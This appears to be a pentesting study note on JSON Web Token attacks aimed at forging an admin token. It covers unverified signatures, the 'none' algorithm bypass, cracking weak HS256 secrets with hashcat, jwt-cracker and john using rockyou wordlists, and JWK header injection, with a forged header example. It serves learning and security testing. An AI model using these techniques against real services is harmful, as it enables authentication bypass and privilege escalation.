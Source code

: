 ### JSON Web tokens

---

JSON web tokens (JWTs) are a standardized format for sending cryptographically signed JSON data between systems. Use - authentication, session handling, and access control mechanisms.

Task : We need to generate a JWT token having an admin role instead of having a user. Finding the key used to sign is important otherwise the signature for a different payload won't be correct.

1. `Unverified signature` - No need to verify signature due to implementation flaw, just change the paramters and construct jwt.
2. `Flawed verification` - Change algo to "none" and leave the signature blank to bypass due to flawed implementation.
3. `Weak signing key HS256 (HMAC + SHA-256)` - Sometimes the JWT is encrypted with some hashing algorithm, we need to break it using 'john the ripper' or other bruteforcing tool and reconstruct the jwt. [jwt-secrets](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)

```py
hashcat -a 0 -m 16500 <jwt> <wordlist> --show  

% jwt-cracker -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwiaWF0IjoxNzA5OTMzODUzfQ.aDP5hVVQQN2uFQL15oTBG1B83j8MnQu0f7IRxodKm24 -d wordlists/rockyou.txt
john jwt.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256

SECRET FOUND: banana
Time taken (sec): 0.123
Total attempts: 20000
```

4. `jwk header injection` - Create a new RSA key, use JWT editor, embed the jwk with your newly created RSA key and send the request.

```json
{
    "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
    }
}
```
